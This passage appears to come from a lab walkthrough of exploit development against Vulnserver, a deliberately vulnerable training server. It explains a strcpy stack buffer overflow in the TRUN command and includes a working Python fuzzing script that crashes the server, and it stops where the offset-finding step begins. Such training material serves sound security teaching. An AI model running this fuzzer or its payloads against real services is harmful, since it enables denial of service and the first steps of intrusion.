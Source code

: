 Here we can see that the ```Buffer2S``` has a size of ```2000 bytes```

But tha data from us (300 bytes) is saved into Buffer2S variable using ```strcpy```

This is where exactly the vulnerability for stack buffer overflow occurs, allowing us to overflow the buffer

We can pass more than ```2000 bytes``` so that it will stored into the ```Buffer2S``` by ```strcpy``` causing a buffer overflow

It also expects for a conditions ```if ((char)RecvBuf[i] == '.') ``` to copy the buffer

## Fuzzing the Server

We have successfully crashed our server and tha payload data begins with ```TRUN /.:/``` which is made up of ```9 bytes```

Lets create a python script which generates payload data and fuzzes the payload length to crash the server

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat fuzzing.py    
import socket, sys
from time import sleep
payload=b"A"*100
while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.116.141", 9999))
        s.send((b"TRUN /.:/"+payload))
        sleep(1)
        payload=payload+b"A"*100
    except:
        print("Fuzzing crashed at %s bytes"%(len(payload)))
        sys.exit() 
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ python3 fuzzing.py
Fuzzing crashed at 2200 bytes
```

The Vulnserver application should be ran without debugger, to avoid socket connection errors

So, from fuzzing we can estimate that our Vulnserver application is crashing at ```2200 bytes``` of buffer data

Still, we are not sure about the approximate buffer space data need to create an overflow

## Finding Offset

By finding offset, we can locate the approximate buffer space size for writing data into the base pointer and instruction pointer

To find the offset, we need to create a pattern and crash the program
